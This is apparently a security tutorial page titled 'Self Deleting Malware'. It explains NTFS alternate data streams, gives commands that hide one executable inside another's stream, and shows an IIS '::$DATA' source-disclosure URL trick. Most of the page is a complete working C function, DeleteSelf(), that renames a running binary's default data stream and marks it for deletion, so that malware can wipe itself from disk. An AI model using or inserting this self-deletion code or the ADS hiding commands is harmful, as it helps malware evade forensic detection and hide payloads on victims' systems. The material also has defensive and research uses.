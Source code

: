 # Self Deleting Malware

## Introduction

A not so well known feature of the New Technology File System (NTFS) is the support for multiple _<mark style="color:yellow;">**data streams**</mark>_. Alternate data streams allow files to contain more than one stream of data. It's purpose was primarily to allow compatibility with Macintosh systems.

Every file has at least one data stream:  **In Windows, the default data stream is** <mark style="color:yellow;">**:$DATA**</mark>.

## Data Streams

Since **:$DATA** exists on every file, it can be an alternate way to access any file. Any applications that creates, looks at, or depends on the end of a file name (or extension) should be aware of alternate data streams. <mark style="color:yellow;">**Unsanitized user input could use the :$DATA stream to change the behavior of the program.**</mark>

### Creating Alternate Data Streams

* `C:\> type C:\windows\system32\notepad.exe > c:\windows\system32\calc.exe:notepad.exe`
* `C:\> start c:\windows\system32\calc.exe:notepad.exe`

### Accessing the :$DATA Alternate Data Stream

* `C:\> start c:\textfile.txt::$DATA`

### Exploiting Data Stream to show ASP code

In some vulnerable versions of IIS, we can exploit the data stream extension to view source code.

Normal Access:

* ```
  http://www.alternate-data-streams.com/default.asp
  ```

Exploited to show code:

* ```
  http://www.alternate-data-streams.com/default.asp::$DATA
  ```



## Deleting a Running Binary

As we know it is not possible to delete a running binary on Windows, since deleting a file requires that no other process is using it.

One way to get around this is by <mark style="color:yellow;">**renaming**</mark>** the default data stream **<mark style="color:yellow;">**:$DATA**</mark>** to another name that represents a new data stream.**&#x20;

We then can we can delete the newly renamed data stream, causing the binary to be wiped from disk.

### Retrieve File Handle

We first need to retrieve the file handle of the binary.

The file handle can be retrieved using the **`CreateFile`** WinAPI. The [access flag](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-mask) must be set to **`DELETE`** to provide file deletion permissions.

```c
hFile = CreateFileW(
        L"deletion.exe",
        DELETE | SYNCHRONIZE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
);
```

### Renaming The Default Data Stream

We can rename the default data stream of the running binary with [SetFileInformationByHandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle) WinAPI function with the [FileRenameInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_rename\_info) flag. There is a list of enum values that we can choose from.



`FILE_INFO_BY_HANDLE_CLASS Enum:`

```c
typedef enum _FILE_INFO_BY_HANDLE_CLASS {
  FileBasicInfo,
  FileStandardInfo,
  FileNameInfo,
  FileRenameInfo, // This is the flag we will use to change the filename.
  ...
  }
```

`SetFileInformationByHandle` WinAPI function:

```c
if (!SetFileInformationByHandle(
        hFile,
        FileRenameInfo,
        &pRename,
        sRename
        )) {

   wprintf(L"SetFileInformationByHandle Failed with Error %d", GetLastError());
   return -1;
};

```



<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Delete The Data Stream

We then delete the  `:$DATA` stream to erase the file from the disk.&#x20;

To do so, the same **`SetFileInformationByHandle`** WinAPI will be used, with a different flag, [FileDispositionInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_disposition\_info) This flag marks the file for deletion when its handle is closed.

We will close and reopen the previous handle.

## Final Code

{% code fullWidth="true" %}
```c

// The new data stream name
#define NEW_STREAM L":Foobar"


BOOL DeleteSelf() {


	WCHAR                       szPath [MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete                = { 0 };
	HANDLE                      hFile                 = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO           pRename               = NULL;
	const wchar_t*              NewStream             = (const wchar_t*)NEW_STREAM;
    SIZE_T			            StreamLength	         = wcslen(NewStream) * sizeof(wchar_t);
	SIZE_T                      sRename               = sizeof(FILE_RENAME_INFO) + StreamLength;


    // Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
  
    // Cleaning up some structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//----------------------------------------------------------------------------------------
    // Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
	Delete.DeleteFile = TRUE;
  
    // Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
	pRename->FileNameLength = StreamLength;
	RtlCopyMemory(pRename->FileName, NewStream, StreamLength);

	//----------------------------------------------------------------------------------------

    // Used to get the current file name
	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	//----------------------------------------------------------------------------------------
    // RENAMING
  
    // Opening a handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Renaming the data stream
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------
    // DELETING
  
    // Opening a new handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");
	
    // Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------

    // Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}

```
{% endcode %}





## Hidden Files Misc

We can confirm that the files are in fact hidden when viewing the explorer

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
